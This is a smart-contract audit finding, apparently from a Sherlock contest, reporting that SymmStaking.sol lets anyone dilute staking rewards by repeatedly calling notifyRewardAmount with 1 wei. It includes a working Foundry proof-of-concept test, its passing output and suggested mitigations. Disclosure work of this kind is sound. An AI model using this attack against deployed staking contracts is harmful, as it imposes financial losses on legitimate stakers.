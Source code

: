 Pet Lace Mantaray

High

# Attacker Will Dilute Staking Rewards for Legitimate Stakers

### Summary

The missing validation on reward updates in SymmStaking.sol will cause an unfair dilution of rewards for stakers, as an attacker can frequently call notifyRewardAmount with a minimal reward. This reduces the effective reward rate and prevents legitimate stakers from receiving their fair share.

### Root Cause

In SymmStaking.sol, there is no proper check on the reward update mechanism. Specifically, an attacker can repeatedly call [notifyRewardAmount()](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275-L291) with dust reward amount, which artificially inflates the reward period and significantly reduces the actual rewards received by honest stakers.

### Internal Pre-conditions

Admin needs to configure the staking contract to allow a reward token using configureRewardToken().
The attacker needs to have an approved balance of the reward token to repeatedly call notifyRewardAmount().
A legitimate user must stake funds in the contract to be eligible for rewards.


### External Pre-conditions

The staking contract must allow reward top-ups at any time without enforcing a minimum amount.
Gas fees must be low enough for an attacker to make multiple calls without a significant financial penalty.

### Attack Path

1. A legitimate staker deposits funds into the staking contract.
2. The staking contract starts distributing rewards normally.
3. The attacker repeatedly calls notifyRewardAmount() with a tiny amount (e.g., 1 wei).
4. Each time the function is called, the reward distribution period extends, making the actual earned rewards per second decrease drastically.
5. Legitimate stakers receive significantly lower rewards than expected.

### Impact

Although the remaining rewards can still be claimed in the future, the continuous dilution of staking rewards imposes an indirect financial loss on legitimate stakers due to the extended reward distribution period.
Demonstrated in the POC, there is 2 reward tokens, for rewardToken1 on which the attack was performed the users will get only 64.56% of the rewards during the cycle compared to 100% for rewardToken2

### PoC

This is a foundry test; in the `/2025-03-symm-io-stacking/token` driectory first run these : 
```sh
forge init --force --no-commit
mv contracts src
forge install OpenZeppelin/openzeppelin-contracts --no-commit
forge install OpenZeppelin/openzeppelin-contracts-upgradeable --no-commit
forge build

```
Create a new test file in the test directory and add in this : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import {console} from "forge-std/Test.sol";
import "../src/contracts/staking/SymmStaking.sol"; // Adjust path as needed
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

contract SymmStakingTest is Test {
    SymmStaking staking;
    
    // Test addresses
    address user = address(0x123);
    address admin = address(0x456);
    address hacker = address(0x789);
    
    // Mock tokens
    ERC20Mock rewardToken1 = new ERC20Mock();
    ERC20Mock rewardToken2 = new ERC20Mock();
    ERC20Mock stakingToken = new ERC20Mock();
    
    // Reward values
    uint256 constant INITIAL_REWARD = 1e20; // 100 tokens with 18 decimals
    uint256 constant SMALL_REWARD = 1; // Small reward (1 wei)

    function setUp() public { 
        // Deploy staking contract
        staking = new SymmStaking(); 
        staking.initialize(admin, address(stakingToken));
        
        // Mint tokens to user
        rewardToken1.mint(user, 1000 * 1e18);
        rewardToken2.mint(user, 1000 * 1e18);
        stakingToken.mint(user, 1000 * 1e18);
        
        // Approve staking contract to spend user's rewards
        vm.startPrank(user);
        rewardToken1.approve(address(staking), INITIAL_REWARD * 23);
        rewardToken2.approve(address(staking), INITIAL_REWARD * 23); 
        vm.stopPrank();
        
        // Mint and approve tokens for hacker
        rewardToken1.mint(hacker, 1000 * 1e18);
        rewardToken2.mint(hacker, 1000 * 1e18);
        vm.prank(hacker);
        rewardToken1.approve(address(staking), 10000 * 1e18);
        rewardToken2.approve(address(staking), 10000 * 1e18);
        
        // Configure staking contract with reward tokens
        vm.startPrank(admin);
        staking.configureRewardToken(address(rewardToken1), true);
        staking.configureRewardToken(address(rewardToken2), true);
        vm.stopPrank();
    }

    function testRewardDilutionBug() public {
        // Step 1: Notify initial reward
        address[] memory tokens = new address[](1);
        address[] memory othertokens = new address[](1);
        uint256[] memory amounts = new uint256[](1);
        
        tokens[0] = address(rewardToken1);
        amounts[0] = INITIAL_REWARD;
        othertokens[0] = address(rewardToken2);

        vm.startPrank(user);
        stakingToken.approve(address(staking), 1e18);
        staking.deposit(1e18, address(user));
        
        // Notify initial reward
        staking.notifyRewardAmount(tokens, amounts);
        staking.notifyRewardAmount(othertokens, amounts);
        vm.stopPrank();

        uint256 cycle = staking.DEFAULT_REWARDS_DURATION();

        // Step 2: Simulate reward dilution with small reward updates
        amounts[0] = SMALL_REWARD; // 1 wei rewards
        
        // Simulate updates in 14 phases within the cycle ( once every 12 hours )
        for (uint256 i = 0; i < 14; i++) {
            vm.warp(block.timestamp + cycle / 14);
            vm.prank(hacker);
            staking.notifyRewardAmount(tokens, amounts);
        }
        
        // Step 3: Measure earnings after dilution
        uint256 token1Earned = staking.earned(user, address(rewardToken1));
        uint256 token2Earned = staking.earned(user, address(rewardToken2));
        
        console.log("Token1 earned: ", token1Earned);
        console.log("Token2 earned: ", token2Earned);
        
        // Expect token1's rewards to be lower due to dilution
        assertLt(token1Earned, token2Earned, "Reward rate should decrease after small update");
    }
}

```
```shell
 token git:(main) ✗ forge test --mt testRewardDilutionBug -vv 
[⠊] Compiling...
[⠃] Compiling 1 files with Solc 0.8.28
[⠊] Solc 0.8.28 finished in 835.28ms
Compiler run successful!

Ran 1 test for test/symmStaking.t.sol:SymmStakingTest
[PASS] testRewardDilutionBug() (gas: 843933)
Logs:
  Token1 earned:  64566468978012331200
  Token2 earned:  99999999999999792000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.79ms (2.41ms CPU time)

```

### Mitigation

- Implement a minimum reward threshold to prevent small reward updates.
- Allow only authorized addresses (e.g., an admin or a governance-controlled contract) to update rewards